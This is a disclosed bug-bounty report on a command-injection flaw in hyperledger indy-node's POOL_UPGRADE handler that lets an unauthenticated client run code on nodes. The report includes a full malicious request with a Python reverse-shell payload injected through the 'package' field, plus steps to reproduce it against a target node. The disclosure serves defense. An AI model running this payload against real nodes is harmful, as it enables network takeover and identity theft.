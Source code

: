# POOL_UPGRADE request handler may allow an unauthenticated attacker to remotely execute code on every node in the network. 

## Report Details
- **Report ID**: 1705717
- **URL**: https://hackerone.com/reports/1705717
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-09-20T07:39:34.383Z
- **Disclosed**: 2022-10-20T20:07:54.109Z

## Reporter
- **Username**: shakedreiner
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: hyperledger

## Vulnerability Information
This issue is related to the https://github.com/hyperledger/indy-node. 
The issue was found in the `indy-node` code that handles the write request of type ****`POOL_UPGRADE` (in file** `indy-node/indy_node/server/request_handlers/config_req_handlers/pool_upgrade_handler.py`****).**** 

The `additional_dynamic_validation` function handles an undocumented field called `package` that can contain the name of the package to be upgraded. I case that this field is not empty, it is passed as is to the following functions `self.upgrader.check_upgrade_possible -> NodeControlUtil.curr_pkg_info -> cls._get_curr_info`.

```python
def _get_curr_info(cls, package):
    cmd = compose_cmd(['dpkg', '-s', package])
    return cls.run_shell_command(cmd)
```

As seen in the code snippet above, the user supplied name is then concatenated to the string `dpkg -s` and is run as a system command without any sanitization. 

This can lead to an attacker supplying a package name, followed by a semicolon and another system command (e.g. `package ; whoami`), resulting in a remote code execution. This of course can be any command, and in the PoC code attached I’m running a reverse shell, effectively taking control of the node, and possibly the entire network and the identities in it (assuming I run this exploit on enough nodes).

The documentation specifies that the `POOL_UPGRADE` can be run by a Trustee only, however, we can run this exploit being a client without any roles in the network.

This is made possible by the fact that the authorization that the `POOL_UPGRADE` handler performs, happens only **after** the package information has been fetched (using `self.upgrader.check_upgrade_possible`). Meaning any client can trigger the vulnerable code path and execute code on all the network’s nodes.

### Steps to reproduce:

We’ll provide 2 methods for this, using the testing framework and independently; both are detailed below. The malicious `POOL_UPGRADE` request looks as follows:

```json
{
    "identifier": "6ouriXMZkLeHsuXrN1X1fd",
    "operation": {
        "action": "start",
        "name": "test",
        "package": "a ; python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"
        172.17 .0 .2\\ ",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\\" / bin / sh\\ ")\'",
        "schedule": {
            "4yC546FFzorLPgTNTc6V43DnpFrR8uHvtunBxb2Suaa2": "2022-12-25T10:25:58.271857+00:00",
            "AtDfpKFe1RPgcr5nnYBw1Wxkgyn8Zjyh5MzFoEUTeoV3": "2022-12-25T10:26:16.271857+00:00",
            "DG5M4zFm33Shrhjj6JB7nmx9BoNJUq219UXDfvwBDPe2": "2022-12-25T10:26:25.271857+00:00",
            "JpYerf4CssDrH76z7jyQPJLnZ1vwYgvKbvcp16AB5RQ": "2022-12-25T10:26:07.271857+00:00"
        },
        "sha256": "db34a72a90d026dae49c3b3f0436c8d3963476c77468ad955845a1ccf7b03f55",
        "type": "109",
        "version": "1.1"
    },
    "protocolVersion": 2,
    "reqId": 1651152851,
    "signature": "4YoXKHNnWRouTUAW4fKuTANnXNJfY2JoPG4PoXfz4PUzjx4NySrAmzkzy6zCiRRf5uczZx5mQVSm1eCZLnUHUDoT"
}
```

A few notes on some important fields:

- `package` - the undocumented field that leads to the security issue. After the semi-colon we have the injected command. In this case, a Python reverse shell (note that you’ll need to change the IP address and port to point to you)
- `schedule` - It’s important only because we need it in order to pass the `static_validation` of this request, just need to set the public nodes and a time in the future.
- `signature` - the request should be properly signed by any identity in the network (no role needed)

**Run using pytest:**

1. `cd indy_node/test/`
2. Drop the `exploit_test.py` file
3. Listen for incoming connection on a different machine (e.g. `ncat -lvvp 4444`)
4. Find the following code in the exploit `s.connect(("172.17.0.2",4444))`, and replace the address and port for your ones
5. Disable the testing patch that replaces the vulnerable function in testing mode using the following command
`sed -i '/def patchNodeControlUtil().*:/{n;s/.*/    yield/}' conftest.py`
6. Run the test and get a reverse shell
`pytest -s exploit_test.py`

**Run independently:**

1. `cd indy_node/test/`
2. Drop the `exploit.py` file
3. Listen for incoming connection on a different machine (e.g. `ncat -lvvp 4444`)
4. Find the following code in the exploit `s.connect(("172.17.0.2",4444))`, and replace the address and port for your ones
5. Replace the `ADDRESS` and `PORT` with your target node details (the node’s **client port**)
6. Replace the `SERVER_KEY` with the ZeroMQ CURVE Public Certificate of your target node (it is public info)
    1. Server key can also be obtained from the genesis file, and converted the same way it’s done here [https://github.com/hyperledger/indy-sdk/blob/master/scripts/test_zmq/src/main.rs](https://github.com/hyperledger/indy-sdk/blob/master/scripts/test_zmq/src/main.rs) or in the `indy-sdk` here `scripts/test_zmq/src/main.rs:136`
7. Run the test and get a reverse shell

## Impact

Breaking the network’s consensus, stealing every identity, getting to run code on all of the nodes.

## Attachments
No attachments
